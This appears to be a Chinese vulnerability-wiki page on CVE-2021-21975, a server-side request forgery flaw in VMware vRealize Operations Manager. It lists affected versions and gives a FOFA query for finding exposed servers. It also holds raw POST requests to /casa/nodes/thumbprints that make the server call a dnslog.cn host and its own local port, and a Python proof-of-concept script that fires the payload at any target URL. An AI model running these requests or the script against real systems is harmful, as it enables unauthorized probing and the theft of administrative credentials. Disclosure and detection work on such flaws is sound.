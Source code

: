 # VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975

## 漏洞描述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。

## 漏洞影响

```
VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0
VMware:cloud_foundation: 4.x 3.x
VMware:vRealize_suite_lifecycle_manager: 8.x
```

## FOFA

```
title="vRealize Operations Manager"
```

## 漏洞复现

访问登录页面如下

![image-20220209124025396](./images/202202091240466.png)

发送请求包如下

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```

![image-20220209124041348](./images/202202091240414.png)

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["127.0.0.1:443/ui"]
```

![image-20220209124100027](./images/202202091241144.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, v):
    vuln_url = target_url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json;charset=UTF-8"
    }
    data = '["{}"]'.format(Dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
        if response.status_code == 200 :
            print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

![image-20220209124122332](./images/202202091241405.png)

